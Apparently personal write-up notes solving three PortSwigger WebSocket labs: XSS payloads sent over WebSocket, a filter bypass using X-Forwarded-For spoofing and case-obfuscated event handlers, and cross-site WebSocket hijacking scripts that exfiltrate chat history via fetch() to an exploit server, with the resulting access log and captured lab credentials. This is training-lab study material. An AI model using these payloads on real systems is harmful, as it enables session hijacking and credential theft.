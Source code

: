 web sockets labs

<!-- 1. Lab: Manipulating WebSocket messages to exploit vulnerabilities -->
https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities

 To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 
 xss via websocket:

test payload:
 	<script>alert(1)</script>
reflected om page but dosent pop
open inspector:
    <td><script>alert(1)</script></td> // *with grey letters = only as string
check Edit as html:
    <td>"&gt;&lt;script&gt;alert(1)&lt;/script&gt;"</td>
someone is HTML ensoding this shit!
check burp websocket history:
{"message":"&lt;script&gt;alert(1)&lt;/script&gt;&#x0a;"}
aha! browser is HTML encoding
lets bypass browser and send from burp repeater + change payload to a handler to fit the code:
    <img src=1 onerror='alert(1)'>

#    POP!



<!-- 2. Lab: Manipulating the WebSocket handshake to exploit vulnerabilities -->
https://portswigger.net/web-security/websockets/lab-manipulating-handshake-to-exploit-vulnerabilities
payload:
{"message":"<img src=1 onerror='print(1)'>"}
response:
{"error":"Attack detected: Event handler"}
ip blocked!

adding x-forwarded-for (XFF) header:
https://en.wikipedia.org/wiki/X-Forwarded-For
x-forwarded-for: 10.10.10.101

obfuscating the payload:
<img src=1 OnErRoR='print(1)'>

#    POP!

<!-- 3. Lab: Cross-site WebSocket hijacking -->
https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

# we dont have collaborator so we will use other technique to exfilterate the information:

<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            var ws = new WebSocket('wss://0a8a002d0305f0edc09a4ce2004b0052.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                console.log(event.data); // this to check that our payload works - testing by 'view exploit'
                let outugo = encodeURIComponent(event.data) // lets 64encode this shit to make it URL comptable
                console.log(outugo) // check our encoding in 'view exploit' link
                fetch('https://exploit-0ad600980341f047c0574ccb0152004c.web-security-academy.net/exploit/' + outugo, {method: 'GET'})} 
                // now lets send a bunch of request to our exploit server using our 64encoded sensetive information as path. we will retrive this onformation from our SERVER ACCESS LOG below
        </script>   
    </body>
</html> 


<!-- just script version:
        
        <script>
            var ws = new WebSocket('wss://0a8a002d0305f0edc09a4ce2004b0052.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                let outugo = encodeURIComponent(event.data) 
                fetch('https://exploit-0ad600980341f047c0574ccb0152004c.web-security-academy.net/exploit/' + outugo, {method: 'GET'})} 
        </script>   

-->


<!-- SERVER ACCESS LOG -->
10.0.3.240      2022-06-28 21:40:39 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36"
10.0.3.240      2022-06-28 21:40:39 +0000 "GET /exploit/%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22Hello%2C%20how%20can%20I%20help%3F%22%7D HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36"
10.0.3.240      2022-06-28 21:40:39 +0000 "GET /exploit/%7B%22user%22%3A%22You%22%2C%22content%22%3A%22I%20forgot%20my%20password%22%7D HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36"
10.0.3.240      2022-06-28 21:40:39 +0000 "GET /exploit/%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22No%20problem%20carlos%2C%20it%26apos%3Bs%20dygwunoh3kownjgxv4cf%22%7D HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36"
10.0.3.240      2022-06-28 21:40:39 +0000 "GET /exploit/%7B%22user%22%3A%22You%22%2C%22content%22%3A%22Thanks%2C%20I%20hope%20this%20doesn%26apos%3Bt%20come%20back%20to%20bite%20me!%22%7D HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36"
10.0.3.240      2022-06-28 21:40:39 +0000 "GET /exploit/%7B%22user%22%3A%22CONNECTED%22%2C%22content%22%3A%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22%7D HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36"
87.71.215.21    2022-06-28 21:40:40 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"

<!-- carlos chat history encoded: -->
%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22Hello%2C%20how%20can%20I%20help%3F%22%7D 
%7B%22user%22%3A%22You%22%2C%22content%22%3A%22I%20forgot%20my%20password%22%7D 
%7B%22user%22%3A%22Hal%20Pline%22%2C%22content%22%3A%22No%20problem%20carlos%2C%20it%26apos%3Bs%20dygwunoh3kownjgxv4cf%22%7D 
%7B%22user%22%3A%22You%22%2C%22content%22%3A%22Thanks%2C%20I%20hope%20this%20doesn%26apos%3Bt%20come%20back%20to%20bite%20me!%22%7D 
%7B%22user%22%3A%22CONNECTED%22%2C%22content%22%3A%22--%20Now%20chatting%20with%20Hal%20Pline%20--%22%7D 

<!-- decoded via burp smart decoder: -->
{"user":"Hal Pline","content":"Hello, how can I help?"} 
{"user":"You","content":"I forgot my password"} 
{"user":"Hal Pline","content":"No problem carlos, it's dygwunoh3kownjgxv4cf"} 
{"user":"You","content":"Thanks, I hope this doesn't come back to bite me!"} 
{"user":"CONNECTED","content":"-- Now chatting with Hal Pline --"} 

sensetive information:
username: carlos
password: dygwunoh3kownjgxv4cf

# POP!


# different tries:
<!-- 

<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            var ws = new WebSocket('wss://0a8a002d0305f0edc09a4ce2004b0052.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                var ws1 = new WebSocket('wss://0a140024034895d4c031a3de0017004e.web-security-academy.net/chat');
                ws1.onopen = function() {
                    ws1.send({"user":"You","content":event.data});
               }}
        </script>   
    </body>
</html> 




<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            var ws = new WebSocket('wss://0a8a002d0305f0edc09a4ce2004b0052.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                fetch('https://exploit-0ad600980341f047c0574ccb0152004c.web-security-academy.net/' + event.data, {method: 'GET'}}
        </script>   
    </body>
</html> 




<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            var ws = new WebSocket('wss://0a8a002d0305f0edc09a4ce2004b0052.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            payload = '----------------------------194011213731446537341966479479%0d%0aContent-Disposition: form-data; name="avatar"; filename="safe.txt"%0d%0aContent-Type: image/jpeg%0d%0a', event.data,'%0d%0a-----------------------------194011213731446537341966479479%0d%0aContent-Disposition: form-data; name="user"%0d%0awiener%0d%0a-----------------------------194011213731446537341966479479%0d%0aContent-Disposition: form-data; name="csrf"%0d%0aLnJIgRrYapPgtunvK2sgyQb7y6WbLfjj%0d%0a-----------------------------194011213731446537341966479479--%0d%0a'
            ws.onmessage = function(event) {
                fetch('https://0a2e00e404cd7663c0aa438800a100c4.web-security-academy.net/my-account/avatar/', {method: 'POST', credentials: "include", Cookie: 'session=Vkc828gsSgpC4Q8XeJlkrXF0Qh9dMZIv', 'Content-Type': 'multipart/form-data; boundary=---------------------------194011213731446537341966479479', body: payload,});
            };
        </script>   
    </body>
</html> 

event.data






# burp original:

<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            var ws = new WebSocket('wss://0a8a002d0305f0edc09a4ce2004b0052.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
            };
        </script>   
    </body>
</html>


 --> -->

